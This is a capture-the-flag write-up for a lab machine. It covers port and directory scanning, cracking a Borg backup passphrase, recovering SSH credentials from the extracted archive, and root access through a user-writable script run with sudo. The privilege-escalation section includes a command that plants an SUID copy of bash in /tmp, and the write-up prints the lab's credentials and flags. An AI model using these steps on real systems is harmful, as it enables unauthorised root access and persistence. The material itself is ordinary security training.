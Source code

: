 
# Recon
## Nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Feroxbuster
```
──(kali㉿kali)-[~]
└─$ feroxbuster --url http://10.10.24.156 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.24.156
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       15l       74w     6143c http://10.10.24.156/icons/ubuntu-logo.png
200      GET      375l      968w    11321c http://10.10.24.156/
301      GET        9l       28w      312c http://10.10.24.156/admin => http://10.10.24.156/admin/
301      GET        9l       28w      310c http://10.10.24.156/etc => http://10.10.24.156/etc/
[>-------------------] - 71s    21741/441101  22m     found:4       errors:2498   
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_10_10_24_156-1703197686.state ...
[>-------------------] - 71s    21803/441101  22m     found:4       errors:2530   
[#>------------------] - 71s    11054/220546  156/s   http://10.10.24.156/ 
[>-------------------] - 68s    10724/220546  158/s   http://10.10.24.156/admin/ 
[####################] - 0s    220546/220546  515294/s http://10.10.24.156/etc/ => Directory listing
[--------------------] - 0s         0/220546  -       http://10.10.24.156/icons/ubuntu-logo.png     
```

as you can see there are admin and etc hidden directories

![](https://i.imgur.com/YSJEXMD.png)


and etc

![](https://i.imgur.com/PB6egNW.png)


checking the archive button we can basically download an archive

![](https://i.imgur.com/KhX6zs0.png)


which downloaded these

![](https://i.imgur.com/H2dsPXL.png)


its time to explore each one of them

also the etc directory had these

![](https://i.imgur.com/di9i9HN.png)

![](https://i.imgur.com/KPzAnsv.png)


![](https://i.imgur.com/jFX3TPf.png)


looks like the passwd is a hash, by using hashcat i was able to crack the password and turns out it was `squidward`

![](https://i.imgur.com/PZNK9OP.png)


# Exploitation

so after that i went inside the README file which states that i gotta go to this link to see documentation

`https://borgbackup.readthedocs.io/en/stable/`

after that i checked a video and then followed what it says by listing the encrypted archive and extracting information

![](https://i.imgur.com/1iMyUiQ.png)


looks like thats the archive that we saw in the website, lets list it!

and we got some useful information

![](https://i.imgur.com/KP64Yup.png)


now what we can do is basically extract it!

![](https://i.imgur.com/iBy9cVF.png)

now we gotta explore...


# Foothold

looks like we found notes and secret text files, lets cat them

![](https://i.imgur.com/wdrZas3.png)

`alex:S3cretP@s3`

we found a user and password!! we can basically then ssh to the machine by using the credentials, since ssh is opened

now that we got credentials we managed to get in as user alex

![](https://i.imgur.com/BuuM91F.png)

`flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}`

# Privesc

now its time to privesc, i tried to find the files that have SUID persm but nothing potential showed, so next  decided to actually check on the bash_history, the bash_history is actually owned by alex so why not just view what's inside??

![](https://i.imgur.com/rxoU545.png)

![](https://i.imgur.com/sjgQyZ2.png)


looks like the user ran both commands whoami and /bin/bash. so this means that the backup.sh script will be executed with /bin/bash and whoami as its command. and after checking the perms of this file it looks like alex is actually the owner of this file too!! 

![](https://i.imgur.com/9el1Okv.png)

i can simply do as follows so i can successfully run the command and get privilege escalation

```bash
chmod +w backup.sh
```

after running the command `sudo bash -c /bin/bash` i  successfully got root access!!

![](https://i.imgur.com/OoNo9Nk.png)


now its time to find the root text

![](https://i.imgur.com/xo6GQ7V.png)

and we successfully found the root flag gg
`flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`

## Method 2
another way to gain root access in a better way.

we can basically just remove everything inside the backup.sh  and add our own bash

![](https://i.imgur.com/vTrDPP7.png)


`cp /bin/bash /tmp/pwn;chmod +s /tmp/pwn`



# Conclusion

# 
---
[Borg](https://borgbackup.readthedocs.io/en/stable/)
